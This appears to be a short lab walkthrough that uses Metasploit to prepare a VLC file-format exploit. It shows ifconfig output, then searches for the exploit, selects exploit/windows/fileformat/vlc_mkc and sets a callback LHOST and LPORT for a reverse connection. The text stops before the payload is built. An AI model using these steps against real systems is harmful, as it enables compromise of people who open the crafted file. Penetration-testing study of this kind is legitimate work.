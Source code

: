 ![Image](1_ifconfig)

# 2 - ifconfig

```
ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.112  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::60a9:bbdc:b61b:ef97  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:45:0d:4f  txqueuelen 1000  (Ethernet)
        RX packets 25  bytes 21526 (21.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 42  bytes 18416 (17.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4  bytes 240 (240.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4  bytes 240 (240.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

![Image](3 _msfconsole-q.png)

# 4 - `msfconsole -q`

```
msfconsole -q
```

![Image](5_search_for_vlc_exploit.png)

# 6 - search for vlc exploit

```
msf6 > search vlc
```

# 7 - Steps

```
use exploit/windows/fileformat/vlc_mkc
```

```
show options
```

```
set LHOST 192.168.1.112
```

```
set LPORT 7777
```